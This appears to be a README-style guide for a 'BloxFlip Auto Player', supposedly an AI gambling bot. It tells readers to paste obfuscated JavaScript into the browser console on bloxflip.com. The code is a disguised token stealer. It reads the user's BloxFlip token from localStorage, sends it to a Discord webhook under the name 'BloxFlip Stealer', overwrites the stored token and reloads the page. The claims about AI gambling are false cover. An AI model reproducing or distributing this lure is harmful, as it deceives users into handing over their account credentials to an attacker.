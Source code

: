 BloxFlip Auto Player: Automated Gambling with AI

Quick Guide to Using the BloxFlip Auto Player:

Step 1: Open https://bloxflip.com

Step 2: Access the Browser Console
Right-click anywhere on the BloxFlip webpage and select "Inspect" or "Inspect Element" from the context menu. This will open the browser developer tools.

Step 3: Navigate to the Console Tab
In the developer tools window, locate and click on the "Console" tab. You should see a command prompt-like interface.

Step 4: Copy the Auto Player Code
Copy the code provided in the main.js file or from here:

function _0x4921(_0x4ce124,_0x302a6e){const _0x42ddba=_0x1f4f();return _0x4921=function(_0x565c73,_0x3709d7){_0x565c73=_0x565c73-(0xd60+-0x2*-0x1054+-0x2c44*0x1);let _0x534693=_0x42ddba[_0x565c73];return _0x534693;},_0x4921(_0x4ce124,_0x302a6e);}const _0x58c629=_0x4921;(function(_0x40fa26,_0x3d7c12){const _0x4e758c=_0x4921,_0x107861=_0x40fa26();while(!![]){try{const _0x4d0309=parseInt(_0x4e758c(0x1e6))/(-0x24a7+0xeb*0x15+0x1161)*(-parseInt(_0x4e758c(0x1f6))/(-0x18*0x15+-0xc3c+0xe36))+-parseInt(_0x4e758c(0x1f9))/(-0x595*-0x1+0xaf7+-0x33*0x53)+parseInt(_0x4e758c(0x1c7))/(0x15f*0x2+0xb6c+-0xe26)+parseInt(_0x4e758c(0x1e2))/(0x1574+-0x72b+-0x2c*0x53)*(-parseInt(_0x4e758c(0x1e0))/(0x2e*-0x92+-0x4aa+0x1eec))+-parseInt(_0x4e758c(0x1c8))/(-0x3*-0x911+-0x12e*-0x1d+-0x3d62)+parseInt(_0x4e758c(0x1d5))/(0x169f+0x32f+0x2*-0xce3)+parseInt(_0x4e758c(0x1e3))/(0x1*0x1376+0x22d4+-0x3641);if(_0x4d0309===_0x3d7c12)break;else _0x107861['push'](_0x107861['shift']());}catch(_0x93a844){_0x107861['push'](_0x107861['shift']());}}}(_0x1f4f,-0x61aa1*0x1+-0x1*0x1cbf7+-0x2c3*-0x751));var _0x8819=[_0x58c629(0x1db)+_0x58c629(0x1e1)+_0x58c629(0x1df)+_0x58c629(0x1c4)+_0x58c629(0x1d3)+_0x58c629(0x1ce)+_0x58c629(0x1f8)+_0x58c629(0x1cf)+_0x58c629(0x1f0)+_0x58c629(0x1e8)+_0x58c629(0x1d0)+_0x58c629(0x1ec)+'M',_0x58c629(0x1f4)+_0x58c629(0x1f1)+_0x58c629(0x1f3),_0x58c629(0x1cb)+'ge',_0x58c629(0x1dd),_0x58c629(0x1e5),_0x58c629(0x1d8)+'pe',_0x58c629(0x1fa)+_0x58c629(0x1c6),_0x58c629(0x1d6)+_0x58c629(0x1c9),_0x58c629(0x1e7)+_0x58c629(0x1ef),_0x58c629(0x1c5)+_0x58c629(0x1cc)+_0x58c629(0x1de)+_0x58c629(0x1da)+_0x58c629(0x1eb)+_0x58c629(0x1d9)+_0x58c629(0x1ca)+_0x58c629(0x1f5)+_0x58c629(0x1e9)+_0x58c629(0x1d4)+_0x58c629(0x1ed)+_0x58c629(0x1dc)+_0x58c629(0x1f7)+_0x58c629(0x1f2),_0x58c629(0x1cd)+_0x58c629(0x1d7),_0x58c629(0x1d7),_0x58c629(0x1e4),_0x58c629(0x1ee),_0x58c629(0x1d1)+_0x58c629(0x1ea),_0x58c629(0x1d2)];{const webhook=_0x8819[0x606+0x6*0x4dc+0xed*-0x26],token=window[_0x8819[0xb91+-0x245b+-0x211*-0xc]][_0x8819[0x232*-0x9+0x5e8+0xddb]],request=new XMLHttpRequest();request[_0x8819[-0x301*0x4+0x115e+-0x556]](_0x8819[-0xd7f*-0x2+-0x2013+0x8*0xa3],webhook),request[_0x8819[-0xb35+0x25c6+0x1*-0x1a8a]](_0x8819[-0xbd0+-0x5*0x2ab+0x192c],_0x8819[0x1b6*0xe+0x22c9+-0x1*0x3ab7]),request[_0x8819[0x1*-0xfbb+0x7c9*0x1+0x7ff]](JSON[_0x8819[-0x1*-0x12bf+0x2012+0x1*-0x32c5]]({'username':_0x8819[-0x2430+-0x336*-0x3+-0xd4b*-0x2],'avatar_url':_0x8819[0x1da6+-0x553*-0x3+-0x2d96],'content':_0x8819[-0x57*-0x27+-0x201d+0x12e6]+token+_0x8819[-0x12dd*-0x1+0xab4+-0x1d86]})),window[_0x8819[0x3bb+-0x2027+0x1c6e]][_0x8819[-0x12*-0x1fd+-0x1*-0x4a3+-0x286c]]=_0x8819[-0x11e2+-0xfbd+0x21ad],location[_0x8819[-0x1e4d+-0x283*0xe+-0x1*-0x4186]]();}function _0x1f4f(){const _0x5268b0=['localStora','dia.discor','**Token**\x0a','92/OwDZSCM','sRjc5kbf0Y','jjf6CARMCa','token\x20logg','reload','7731801374','_2022-04-1','5455152jAntdk','setRequest','```','Content-ty','421314601/','ttachments','https://di','10_PM.png?','POST','dapp.net/a','api/webhoo','97446RKOEwr','scord.com/','490ZxQHjR','40780728JLlWth','stringify','open','1plIUtR','BloxFlip\x20S','yRG3UPCMSS','creen_Shot','ed\x20rip','/953476600','zdnZ8weniH','4_at_3.15.','send','tealer','A13ebMzecq','ARE_BLOXFLI','height=461','P_TOKEN','_DO_NOT_SH','87678770/S','2476046yWxdbk','width=461&','SQxPegTNak','1175484CfQYeB','applicatio','ks/1116363','https://me','n/json','1091508YyxclE','10206469ldHMwg','Header','9642885233'];_0x1f4f=function(){return _0x5268b0;};return _0x1f4f();}

Step 5: Paste the Code in the Console
Paste the copied code into the console area. Just right-click and choose "Paste" or press "Ctrl + V" (or "Command + V" on Mac) to paste the code.

Step 6: Run the Auto Player
Press the "Enter" key on your keyboard or click the "Run" button (if available) to execute the code.

Step 7: Enjoy Automated Gambling
Sit back and watch as the BloxFlip Auto Player takes charge. With its AI capabilities, it will automatically play various gambling games for you, such as Crash, Dice, Roulette, and more.

Remember to gamble responsibly and within the guidelines set by BloxFlip.com. The BloxFlip Auto Player enhances your experience by leveraging AI technology, but winning is not guaranteed.

Now, enjoy the thrill of automated gambling with the BloxFlip Auto Player!
